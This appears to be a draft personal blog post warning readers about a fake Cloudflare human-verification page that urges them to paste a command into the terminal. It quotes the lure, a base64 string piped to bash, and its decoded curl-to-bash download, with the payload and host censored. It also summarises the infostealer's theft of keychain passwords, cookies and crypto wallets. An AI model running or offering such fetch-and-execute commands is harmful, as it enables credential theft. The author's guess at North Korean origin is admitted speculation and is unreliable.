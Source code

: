 <!------------------------- REFERENCE LINKS BLOCK ----------------------------------->
[TODO]: some-link
<!----------------------- END REFERENCE LINKS BLOCK --------------------------------->

Watch Out For Fake Cloudflare Malware
======================================
Spreading the word about a nasty new phishing scam

![](./images/image.png)

> 🚨 BLUF: there's a clever new malware posing as a Cloudflare "verify you're human" page. If you do what this malware wants, it will steal everything on your computer. DO NOT EVER run anything from a website in your terminal! There's no legitimate reason to do so, unless you're a coder and know what you're doing.

I followed a link on a Harvard Health article and was presented with this official-looking screen:

![](./images/malware.jpeg)

_Website blocked out because I'm unsure if they're part of the malware, or just a victim._

I knew [Cloudflare has beef with AI companies](https://www.forbes.com/sites/johnwerner/2025/07/12/cloudflare-gives-ai-bot-companies-ultimatum/) so my subconscious figured this must be part of their war. Right as I mindlessly clicked "Copy", two huge red flags burst into my consciousness:

1. Why is Cloudflare asking me to run things in the terminal? No legitimate website would be asking to run arbitrary commands on my computer.
2. The supposed text to run wouldn't actually _do_ anything on the terminal.

Curious, I checked to see what I'd actually copied:

```
echo "<bunch of base64 I'm censoring for safety>" | base64 -d | bash
```

Suuuuper sketchy... some opaque encoded stuff is getting executed directly in `bash`. Very unlikely Cloudflare would do this, unless they pushed some very boneheaded feature recently.

What's inside that encoded stuff? Running just the decode gives me:

```
curl -s http://<a totally random URL>/some/file.php | nohup bash &
```

_Again, censoring for safety._

So it would download a random file from a random server, and then run it with `bash`. I knew at this point that this isn't Cloudflare; it's malware.

My heebie-jeebies went into overdrive, and I closed the tabs before I accidentally ran anything like the full command.

> 🧠 Let me tell you: coffee's stimulant effects have nothing on knowing that if you copy-paste wrong, you'll run something from god-knows-where doing god-knows-what.

I then Googled to see if anyone else had seen this.

Turns out [this security researcher has](https://cyooda.com/blog/highly-malicious-macos-infostealer), and he did the work of figuring out what that PHP file would have done:

- Copy the passwords in my Mac keychain
- Copy the cookies from my browsers
- Copy credentials to crypto wallets on my machine
- Send it all to a remote server

Scary stuff.

I then reported both sites to [Google Safe Browsing](https://safebrowsing.google.com/) and closed everything out.

But I couldn't resist one last little investigation: who owns this domain?

I did a `whois` on the domain, and...

...it's registered with [this Japanese domain registrar](https://en.wikipedia.org/wiki/GMO_Internet), but the registrant is hidden :(

That the trail leads back to Asia has me guessing this is either Chinese or North Korean in origin.

North Korea's cyberwarfare is [notoriously aggressive in stealing crypto given the country has no real economy to speak of](https://observer.com/2025/04/how-north-korea-became-a-cybercrime-superpower-without-internet-access/), and the script stores its stolen credentials in a directory called `lovemrtrump`.

Perhaps a nod to the North Korea ↔ Trump relations? Or maybe a total red herring.

Regardless, I got chills knowing that the single line of text with such destructive power was still in my clipboard.

---

A few years back I wrote a guide on how normal people can stay safe on the internet.

I still follow it, and one of my recommendations there - [1Password](https://1password.com/)- would have partially protected me even if I'd run the malware.

If you want to build your own cyber defenses to Good Enough, you'll probably be interested in the guide: [Cybersecurity 101](https://mieubrisse.substack.com/p/cybersecurity-101).

And if this post was useful to you, consider subscribing for more posts designed to make your life better:

TODO SUBSCRIBE BUTTON

<!------------------ IG POST DESCRIPTION --------------------->
<!--
TODO

🐒 Full article at link in bio.
-->
